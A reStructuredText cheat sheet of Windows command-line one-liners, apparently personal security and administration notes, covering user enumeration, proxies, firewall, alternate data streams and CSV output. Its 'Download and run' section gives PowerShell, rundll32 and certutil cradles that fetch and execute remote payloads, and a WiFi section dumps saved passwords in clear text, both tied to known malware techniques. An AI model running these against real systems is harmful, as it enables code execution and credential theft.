 One-liners commands
===================

Here are some useful short commands for Windows systems that may be useful.

In order to find a specific Powershell command from a keyword, this can be used:

.. code-block:: sh

    # List commands using "WMI" in their names
    Get-Command -noun *WMI*


Download and run
----------------

Download and run a script

* PowerShell::

    powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://webserver/payload.ps1')|iex"

* JavaScript through Rundll32 (used by Win32/Poweliks malware)::

    rundll32.exe javascript:"\..\mshtml,RunHTMLApplication";o=GetObject("script:http://webserver/payload.sct");window.close();

* Using ``certutil``::

    certutil -urlcache -split -f http://webserver/payload.b64 payload.b64 & certutil -decode payload.b64 payload.exe

Source: https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/amp/

Downloading files with PowerShell::

    $content = (New-Object Net.WebClient).DownloadString("http://webserver/file.txt")

    # Save to a file
    Invoke-WebRequest -Uri http://webserver/file.txt -OutFile file.txt -UseBasicParsing

    # With BITS (Background Intelligent Transfer Service) (ipmo = Import-Module)
    ipmo BitsTransfer;Start-BitsTransfer -Source "http://webserver/file.txt" -Destination C:\Windows\Temp\


Proxy settings
--------------

Get the HTTP proxy which is currently configured::

    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyServer
    reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Internet Settings" /v ProxyEnable
    netsh winhttp dump

Add a HTTP proxy::

    netsh winhttp set proxy 127.0.0.1:3128


WiFi profiles
-------------

List available WiFi profiles::

    netsh wlan show profiles

Export WiFi profiles (username and password) to ``%APPDATA%\<profile>.xml``::

    cmd.exe /c netsh wlan export profile key=clear folder="%APPDATA%"

Source: https://securelist.com/shedding-skin-turlas-fresh-faces/88069/

In PowerShell, without writing any file::

    $results = (netsh wlan show profiles) |
        Select-String '\:(.+)$' | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | \
        %{(netsh wlan show profile name=$name key=clear)} | \
        Select-String 'Key Content\W+\:(.+)$' | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | \
        %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }}

    # Display the results or record them in files
    $results
    $results | Format-Table -Wrap
    $results | Format-Table -AutoSize
    $results | Out-GridView
    $results | Export-Csv -Path .\wifi.csv -NoTypeInformation -Encoding ASCII
    $results | Out-File -FilePath .\wifi.txt -Encoding ASCII

Sources:

* https://jocha.se/blog/tech/display-all-saved-wifi-passwords
* https://www.tenforums.com/tutorials/27997-see-wireless-network-security-key-password-windows-10-a.html
* https://community.idera.com/database-tools/powershell/ask_the_experts/f/learn_powershell_from_don_jones-24/19610/convert-one-liner-to-more-readable-code


User and group management
-------------------------

Some commands to list and manage users and groups

.. code-block:: sh

    # Get information on the current user
    whoami
    whoami /groups
    whoami /priv
    whoami /all

    # Local users and groups manager
    lusrmgr.msc

    # net command on local accounts
    net user
    net localgroup

    # net command on Active Directory accounts
    net user /domain
    net group

    # query command
    query user

    # PowerShell, with MS Exchange cmdlet
    # Add-PSSnapin Microsoft.Exchange.Management.PowerShell.E2010
    Get-User | Export-CSV C:\Temp\AllUsers.csv -NoTypeInfo

    # WMI (PowerShell)
    Get-WmiObject Win32_UserAccount
    Get-CimInstance -ClassName Win32_UserAccount
    Get-CimInstance -ClassName Win32_Group


Enumerate live objects
----------------------

Enumerate all processes::

    tasklist
    query process *
    Get-Process

Enumerate all services::

    Get-Service | Export-CSV C:\Temp\AllServices.csv -NoTypeInfo


Local Group Policy
------------------

::

    gpedit.msc
    secpol.msc

    secedit /export /cfg system_config.cfg


Boot configuration
------------------

::

    msconfig


Installed software
------------------

::

    wmic product get name,version /format:csv > applications.csv


Firewall
--------

::

    wf.msc

    Get-NetFirewallProfile
    Show-NetFirewallRule


TCP port forwarding with netsh
------------------------------

::

    netsh interface portproxy add v4tov4 listenport=1234 listenaddress=192.0.2.42 connectport=80 connectaddress=10.13.37.1


Alternate Data Streams
----------------------

Get files with ``Zone.Identifier`` alternate data stream (ADS)::

    Get-ChildItem -Recurse | Get-Item -Stream Zone.Identifier -ErrorAction SilentlyContinue | Select-Object FileName

Read an ADS::

    Get-Content -Stream Zone.Identifier .\my-application.exe

Remove an ADS::

    Remove-Item .\my-application.exe -Stream Zone.Identifier

When downloading a file from the Internet, ``dir`` shows a filename with suffix ``:Zone.Identifier:$DATA`` and with 26 bytes (each lines are ended by ``"\r\n"``::

    [ZoneTransfer]
    ZoneId=3

The Zone identifier is 0 for the local machine, 1 for the local intranet, 2 for trusted sites, 3 for the Internet or 4 for restricted sites.

The ADS ``Zone.Identifier`` may contain other fields such as ``ReferrerUrl=...``.


CSV and table viewer
--------------------

Display a simple CSV file in a simple GUI, from a PowerShell prompt::

    Import-Csv -Path file.csv | Out-GridView

In order to produce a CSV from a PowerShell command::

    ... | Sort-Object -Property Timestamp | Export-Csv file.csv -notypeinformation

For a table in the CLI::

    ... | Format-Table
    ... | ft

In order to show a table as a list::

    ... | Format-List
    ... | fl
